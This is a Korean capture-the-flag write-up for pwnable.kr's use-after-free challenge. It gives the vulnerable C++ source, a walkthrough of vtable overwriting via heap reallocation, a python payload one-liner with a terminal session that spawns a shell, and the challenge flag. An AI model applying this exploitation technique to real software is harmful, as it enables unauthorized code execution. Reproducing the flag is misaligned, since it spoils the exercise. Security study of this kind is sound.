 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-04-16-35-39.png)


# **Write-Up**

소스를 보면 다음과 같다.

```cpp
#include <fcntl.h>
#include <iostream>
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
        virtual void give_shell(){
                system("/bin/sh");
        }
protected:
        int age;
        string name;
public:
        virtual void introduce(){
                cout << "My name is " << name << endl;
                cout << "I am " << age << " years old" << endl;
        }
};

class Man: public Human{
public:
        Man(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
        Human* m = new Man("Jack", 25);
        Human* w = new Woman("Jill", 21);

        size_t len;
        char* data;
        unsigned int op;
        while(1){
                cout << "1. use\n2. after\n3. free\n";
                cin >> op;

                switch(op){
                        case 1:
                                m->introduce();
                                w->introduce();
                                break;
                        case 2:
                                len = atoi(argv[1]);
                                data = new char[len];
                                read(open(argv[2], O_RDONLY), data, len);
                                cout << "your data is allocated" << endl;
                                break;
                        case 3:
                                delete m;
                                delete w;
                                break;
                        default:
                                break;
                }
        }

        return 0;
}
```

case 1의 경우 0x400FCD로 jump하고 case 2의 경우 0x401000로 jump하고 case 3의 경우 0x401076으로 jump한다.

![](images/2022-01-04-16-36-09.png)

uaf bug인 경우 어떤 변수가 heap영역에 할당된 공간이 free를 통해 해제되고, 다른 변수가 그 공간에 데이터를 넣고, 다시 어떤 변수가 heap영역을 할당 받을 때 다른 변수의 데이터가 참조된다는 버그이다.

![](images/2022-01-04-16-36-14.png)

test.txt에 ABCD라는 값을 넣고 uaf를 실행할 때, 인자 값으로 4와 test.txt로 준다.

case 1를 호출하고 살펴보면 다음과 같다.

0x400FCD : rbp-38주소의 값(0xC14EA0)을 rax에 저장 (heap 주소)

0x400FD1 : rax가 가르키는 주소(0xC14EA0)에 들어있는 값(0x401570)을 rax에 저장

* 0x401570에 들어있는 값은 0x40117A로 Human class의 give_shell함수 주소이다.

0x400FD4 : rax(0x401570)에 0x8을 더함

0x400FD8 : rax가 가르키는 주소(0x401578)에 들어있는 값(0x4012D2)을 rdx에 저장

* 0x4012D2는 Man class의 introduce함수 주소이다.

0x400FE2 : Man class의 introduce함수 호출

0x400FF9 : Woman class의 introduce함수 호출(heap 주소 : 0xC14EF0, give_shell 주소가 저장된 주소 : 0x401550, introduce함수 주소 : 0x401376)

![](images/2022-01-04-16-36-25.png)

case 3을 호출하여 free를 해준다.

다음으로 case 2를 살펴보면 다음과 같다.

0x40104A : rbp-20주소의 값(0xC14EF0)을 rcx(data)에 넣는다.

![](images/2022-01-04-16-36-37.png)

이제 값을 참조하기 위해 case 1를 호출하면 segment fault가 일어난다.

Woman의 heap주소가 더 낮은 주소이기 때문에 data의 주소는 Woman이 할당 받았던 주소에 들어가지만, 코드는 Man class의 introduce함수를 먼저 호출한다.

즉, Man class의 introduce는 free때문에 0x8주소에 들어있는 값인데 주소를 찾을 수없고, Woman의 introduce 함수의 주소는 0x44434249주소에 들어있는 값으로 변조가 된다.

따라서, test.txt에 들어가야 하는 값은 0x401568(0x401570 - 0x8)이 되어야 하고, free이후 after를 2번 호출해야한다. 그러면 Man introduce에서 /bin/sh이 호출되고, Woman introduce에서 /bin/sh이 호출된다.

```sh
uaf@pwnable:~$ mkdir -p /tmp/ljw-uaf
uaf@pwnable:~$ python -c 'print "\x68\x15\x40\x00"' > /tmp/ljw-uaf/payload
uaf@pwnable:~$ ./uaf 4 /tmp/ljw-uaf/payload
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ cat flag
yay_f1ag_aft3r_pwning
```


# **FLAG**

**yay_f1ag_aft3r_pwning**